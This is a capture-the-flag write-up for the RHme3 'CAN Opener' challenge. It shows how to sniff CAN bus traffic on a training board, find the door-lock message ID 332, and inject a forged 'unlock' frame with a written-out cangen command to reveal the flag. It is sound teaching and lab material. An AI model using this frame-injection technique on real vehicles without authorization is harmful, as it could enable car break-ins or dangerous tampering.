 # [CAN Opener](https://rhme.riscure.com/3/challenge?id=13)

Controller Area Network - 150pts

## Challenge text

Our operatives have recovered a DeLorean in the ruins of an old mid-west US town. It appears to be locked, but we have successfully accessed its internal communications channels. According to the little data we have, the DeLorean internally uses an archaic technology called CAN bus. We need you to analyze the communications and find a way to unlock the vehicle; once unlocked, recover the secret flag stored inside. We have reason to believe that vehicle entry should be a fairly easy challenge, but to aid you in this, we have restored and reconnected the vehicle dashboard.

Best of luck.

The Dashboard app was available during the CTF.

Challenge developed by Argus Cyber Security.

## Solution

### Solution overview

The solution to this challenge is basically to identify which CAN ID controls door locks, rewrite it, and manually feed it back onto the CAN bus.  It's that simple.

### Preparation

If you haven't done so already, follow the [Beaglebone Black CAN preparation](../Preparation/BBB_CAN_prep.md) guide to get ready for working with CAN bus.

Make the following connections:
* Connect the two ECUs on the RHme3 board using jumpers.
* Connect the Beaglebone Black to the RHme3 ECUs using twisted pair wiring via a CAN transciever such as a Carloop CAN Hitch.  The Beaglebone Black is capable of using two CAN transcievers, but you only need one for this challenge.

![Single CAN Hookup](../Images/can_hookup_single.jpg)

Determine the serial port used for RHme3 board, then start up the Dashboard app:

	> cd rhme3dash-master; dashboard.py COM42
	$ cd rhme3dash-master; dashboard.py /dev/ttyUSB0

### Analysis

A quick analysis using cansniffer on the Beaglebone Black shows that CAN ID 332 may be useful:

	$ cansniffer -c can0
	332  6C 6F 63 6B 00 00 00 00 lock....

### Attack

Let's attempt to rewrite this as "unlock" and feed it back using cangen:

	332  75 6E 6C 6F 63 6B 00 00 unlock..
	$ cangen -I 332 -L 8 -D 756E6C6F636B0000 -n 5 can0

On the dashboard, the door indicator lights up and the flag is displayed in the lower left corner.

![CAN Opener Dashboard with FLAG](../Images/can_opener_dashboard.png)
